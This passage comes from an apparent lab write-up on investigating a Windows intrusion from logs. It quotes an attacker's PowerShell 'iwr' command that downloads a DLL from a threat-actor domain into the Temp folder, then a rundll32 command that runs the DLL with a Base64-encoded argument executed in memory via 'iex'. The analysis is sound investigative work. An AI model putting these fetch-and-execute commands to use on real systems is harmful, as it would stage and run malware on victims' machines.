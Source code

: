 ![image](lab_qns_images/18_first_dll_activity_pc1.jpg)

Immediately, we're able to see that `354465_SB_SMBUS_SDK.dll` was downloaded into the ABZ-PC-01 from a threat actor's C2 server. Inside the message, the `iwr` command means to Invoke Web-Request. The full command is: 

`iwr -Uri https://update.downloadmirror.net/programs/354465_SB_SMBUS_SDK.dll -OutFile C:\\Windows\\Temp\\354465_SB_SMBUS_SDK.dll` whereby the downloadmirror.net domain is the domain where the threat actor has their tools, and after the download, it's stored in the Temp folder in Windows - to possibly be used again later. 

And right after that log, in the next one below, the command in question is: 
`cmd /c 'rundll32 C:\Windows\Temp\354465_SB_SMBUS_SDK.dll,main [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("YwBwACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHcAYgBlAG0AXABXAE0ASQBDAC4AZQB4AGUAIABDADoAXABXAGkAbgBkAG8AdwBzAFwAVABlAG0AcABcAFIAdABrAEIAdABNAGEAbgBTAGUAcgB2AC4AZQB4AGUA")) ^| iex'` whereby in a new cmd.exe instance, the following string runs and the new cmd window closes right after. 

Essentially, rundll32 is used to load and execute the `main` function inside the DLL downloaded and staged in the Temp folder; with an argument that's encoded in Base64. The argument gets decoded before execution, and iex executes this decoded argument without writing it to disk. 

So, this log at 2024-06-25 08:26:39am tells us the first process that was created by this malicious DLL, and we've learnt the Base64 string in the argument is shown above. Deciphering that using Cyberchef like so: 

![image](lab_qns_images/19_decipher_base64string.jpg)
